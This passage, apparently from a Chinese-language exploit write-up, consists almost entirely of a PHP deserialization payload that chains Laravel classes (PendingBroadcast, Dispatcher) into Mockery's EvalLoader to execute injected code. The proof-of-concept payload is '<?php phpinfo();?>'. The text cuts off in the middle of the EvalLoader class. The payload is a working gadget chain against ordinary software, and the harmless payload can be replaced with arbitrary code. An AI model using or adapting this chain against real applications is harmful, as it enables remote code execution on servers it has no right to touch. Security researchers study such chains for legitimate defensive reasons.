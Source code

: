 payload如下

```
<?php
namespace Illuminate\Broadcasting{
    class PendingBroadcast{
        protected $events;
        protected $event;
        public function __construct($events, $event)
{
            $this->event = $event;
            $this->events = $events;
        }
    }
}
namespace Illuminate\Broadcasting{
    class BroadcastEvent
    {
        public $connection;

        public function __construct($connection)
{
            $this->connection = $connection;
        }
    }
}
namespace Illuminate\Bus{
    class Dispatcher
    {
        protected $queueResolver;

        public function __construct($queueResolver)
{
            $this->queueResolver = $queueResolver;
        }
    }
}
namespace Mockery\Generator{
    class MockDefinition
    {
        protected $config;
        protected $code;

        public function __construct(MockConfiguration $config)
{
            $this->config = $config;
            $this->code = '<?php phpinfo();?>';
        }
    }
}

namespace Mockery\Generator{
    class MockConfiguration
    {
        protected $name = "none class";
    }
}

namespace Mockery\Loader{
    class EvalLoader
    {
        public function load(MockDefinition $definition)
        {

```